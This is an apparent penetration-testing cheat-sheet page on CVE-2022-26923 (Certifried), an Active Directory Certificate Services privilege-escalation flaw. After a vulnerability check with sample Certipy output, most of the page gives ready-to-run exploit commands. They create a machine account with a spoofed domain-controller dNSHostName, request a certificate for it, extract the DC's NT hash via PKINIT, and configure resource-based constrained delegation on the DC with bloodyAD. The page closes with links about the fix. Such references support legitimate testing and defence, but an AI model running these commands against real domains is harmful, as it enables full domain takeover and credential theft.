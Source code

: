 ```yaml
---
description: CVE-2022-26923
---
```


# dNSHostName Spoofing

- [https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/](https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/)
- [https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1](https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1)
- [https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e](https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e)
- [https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)




## Check

If there's an object SID printed when requesting a certificate based on the User or Machine templates, the AD environment is **not** vulnerable:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template User -dc-ip 192.168.1.11
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 120
[*] Got certificate with UPN 'snovvcrash@megacorp.local'
[*] Certificate object SID is 'S-1-5-21-1230029644-1443616230-1161330039-2139'  <== NOT vulnerable
[*] Saved certificate and private key to 'snovvcrash.pfx'
```




## Exploit

Create a new machine account with `dNSHostName` containing FQDN of a DC:

```
$ certipy account create -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user fakemachine -dns DC01.megacorp.local
```

Request a certificate on behalf of that machine account with spoofed `dNSHostName`:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template Machine -dc-ip 192.168.1.11
```



### Abuse PKINIT

Authenticate with the obtained certificate and get DC's NT hash via PKINIT:

```
$ certipy auth -pfx dc01.pfx -dc-ip 192.168.1.11
```



### Abuse RBCD

- [https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

Authenticate with obtained certificate and configure RBCD on a DC via [bloodyAD](https://github.com/CravateRouge/bloodyAD) to allow delegation to the fake machine account:

```
$ openssl pkcs12 -in dc01.pfx -out dc01.pem -nodes
$ python bloodyAD.py -d megacorp.local -c ":dc01.pem" --host 192.168.1.11 setRbcd 'fakemachine$' 'DC01$'
```




## About the Fix

- [https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/](https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/)
- [https://elkement.blog/2022/06/13/defused-that-san-flag/](https://elkement.blog/2022/06/13/defused-that-san-flag/)
